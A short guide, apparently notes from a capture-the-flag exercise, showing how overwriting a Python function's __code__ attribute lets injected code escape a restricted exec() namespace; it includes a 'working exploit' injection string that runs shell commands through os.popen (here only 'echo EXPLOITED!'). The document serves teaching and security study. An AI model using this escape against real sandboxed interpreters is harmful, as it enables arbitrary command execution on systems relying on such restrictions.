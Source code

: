 *2022-05-15*

#guide 

> [!Abstract]
>The `__code__` attribute of a Python function can be overwritten, allowing us to break out of a constrained namespace and use an elevated one.

---

We can view all the attributes of a Python object using `print(func.__dir__())`. If we run this on the `print` function object for example, be able to see its `__code__` attribute.

```python
Python 3.10.4 (main, Mar 23 2022, 23:05:40) [GCC 11.2.0] on linux  
Type "help", "copyright", "credits" or "license" for more information.  
>>> print(print.__dir__())  
['__repr__', '__hash__', '__call__', '__getattribute__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__reduce__', '__module__', '__doc__', '__name__', '__qualname__', '__self__', '__text_signature__', '__new__',  
'__str__', '__setattr__', '__delattr__', '__init__', '__reduce_ex__', '__subclasshook__', '__init_subclass__', '__format__', '__sizeof__', '__dir__', '__class__']
```

We can overwrite this attribute with the code of another function or a lambda. Lambdas are generally easier when working with code injections.

## Example
```python
def func1():
	print(1)

func1()

func1.__code__ = (lambda: print(2)).__code__

func1()
```

Output:
```
1
2
```

## Namespace Escalation
We can use this property to escalate to a namespace with more functions available. Consider the following `exec()` injection with a limited namespace.

> [!Note]
> Notice that the globals available to use in the `exec()` function have been limited. In this case, only `print()` can be called.

#### Failed exploit
```python
import os 

def new_print(x):
	print(f"new print {x}")

builtins = {
	"print": new_print
}  

injection = "print(os.popen('whoami').read())"

exec(f"{injection}", builtins)
```

Output:
```shell
Traceback (most recent call last):
  File "/home/james/htb/amidst-us/namespace.py", line 13, in <module>
    exec(f"{injection}", builtins)
  File "<string>", line 1, in <module>
NameError: name 'os' is not defined
```

We get the error that the `os` module is not defined, which make sense since it's not included in the restricted namespace of the `exec`.

Now, lets try the same code with a different injection. This time we're going to overwrite the `__code__` attribute of `print` with that of a custom lambda. We'll then run `print()`.

#### Working exploit
```python
import os 

def new_print(x):
	print(f"new print {x}")

builtins = {
	"print": new_print
}  

injection = "print.__code__ = (lambda: print(os.popen('echo EXPLOITED!').read())).__code__; print()"

exec(f"{injection}", builtins)
```

Output:
```
EXPLOITED!
```

> [!Success]
> The `print` function's code is being overwritten with that of our own lambda, but instead of using the constrained namespace of the `exec`, it's using the namespace of `new_print` which has access to the `os` module and all the default Python built-ins. 

With this change, `print(os.popen('echo EXPLOITED!').read())` is running as if it's not in the constrained namespace.

---

# References
* https://stackoverflow.com/questions/6886493/get-all-object-attributes-in-python

---